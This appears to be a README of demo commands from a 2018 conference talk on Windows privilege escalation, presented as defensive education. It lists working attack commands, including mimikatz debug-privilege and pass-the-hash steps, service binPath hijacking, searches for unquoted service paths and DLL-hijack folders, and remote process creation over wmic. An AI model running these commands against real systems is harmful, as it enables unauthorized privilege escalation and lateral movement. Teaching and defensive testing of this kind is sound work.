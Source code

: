 # PrivilegeEscalation
Demos' commands

## PRIVILEGE ESCALATION in windows

#### CyberArk Impact 2018

@Doronaim



<u>Intro</u>:

In this document you'll be able to find all scripts and code I ran in the session. I hope you'll find these tools helpful in protecting you organization from within.

**Remember **: Assume breach is the right state of mind.



<u>Tools:</u>

1. Windows Internals - https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite
2. Process Hacker - https://wj32.org/processhacker/
3. Mimikatz - https://github.com/gentilkiwi/mimikatz/releases



<u>Part I - Local Privilege Escalation:</u>

1. **Token Manipulation** - Flagging up the "SeDebug" privilege.

   In mimikatz : 

   ```
   privilege::debug
   ```

2. **Unquoted Services**

   In CMD:

   ```
   wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
   ```

3. **Insecure Permissions**

    Check for weak services that allow normal user groups to modify their configuration:

   ```
   accesschk.exe -uwcqv "Everyone" *
   accesschk.exe -uwcqv "Authenticated Users" *
   accesschk.exe -uwcqv "Users" *
   accesschk.exe -uwcqv "<GroupName>" *
   ```

   Change service path in CMD:

   ```
   SC config <serviceName> binPath= “<command>”
   ```

4. **DLL Hijacking**

   Look for folders with insecure permissions:

   (**M**) - Modify (**F**) - Full Access 

   ```
   icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr “BUILTIN\Users"
    
   icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"
   ```

5. **EXTRA**

   Check if installers are auto-elevated:

   1. ```
      reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
      ```



<u>Remote Privilege Escalation</u> (RCE)

1. Pass the hash using Mimikatz:

   ```
   sekurlsa::pth /user:Genie /domain:harame.local /ntlm:64f12cddaa88057e06a81b54e73b949b
   ```

2. Access network resouce for having TGT from the DC

   ```
   Dir \\DC\C$
   ```

3. Use the TGT to connect Jafar's machine -  and run a code (we used notepad as PoC)

   ```
   wmic /node:Jafar process call create "notepad.exe"
   ```



[Sploitspern]: https://www.sploitspren.com/2018-01-26-Windows-Privilege-Escalation-Guide/
[Pentest.blog]: https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
